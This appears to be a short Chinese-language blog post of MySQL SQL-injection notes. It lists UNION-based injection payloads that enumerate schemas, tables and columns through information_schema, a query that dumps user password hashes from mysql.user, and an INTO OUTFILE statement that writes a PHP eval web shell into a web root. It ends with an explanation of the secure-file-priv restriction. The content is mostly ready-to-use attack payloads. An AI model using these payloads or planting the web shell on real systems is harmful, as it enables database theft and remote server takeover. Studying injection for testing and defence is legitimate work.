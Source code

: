 ```yaml
---
layout: post
title: "SQLin"
comments: false
description: ""
keywords: "mysql oracle"
---
```


# mysql

踩点、组装、投送、攻击、植入、控制、行动。

## 手动联合

在自带数据库库information_schema表schemata列SCHEMA_NAME查询库名

    'union select schema_name from information_schema.schemata 


table 表名查询 information_schema.tables

    'union select tanle_name from information_schema.tables where table_schema = "数据库名字"

字段名字 information_schema.columns column_name

    'union select column_name from information_schema.columns where  table_name="表名" and table_schema="xxx"

mysql.user 用户口令哈希

    select user,password from mysql.user

***

## 写文件

    select '<?php @eval($_POST[cmd]);?>' INTO OUTFILE 'D:/phpStudy/WWW/cmd.php';
    ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement
 
> 官方文档说明 --secure-file-priv=name Limit LOAD DATA, SELECT ... OUTFILE, and LOAD_FILE() to files within specified directory

* secure-file-priv参数是用来限制LOAD DATA, SELECT ... OUTFILE, and LOAD_FILE()传到哪个指定目录的。

* mysql --secure-file-priv=null 限制mysqld的导入和导出，完全禁止出。

* mysql --secure-file-priv=/xx/xx 限定输出目录为/xx/xx

```

mysql> show global variables like '%secure%';

+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_auth      | OFF   |
| secure_file_priv | NULL  |
+------------------+-------+
```
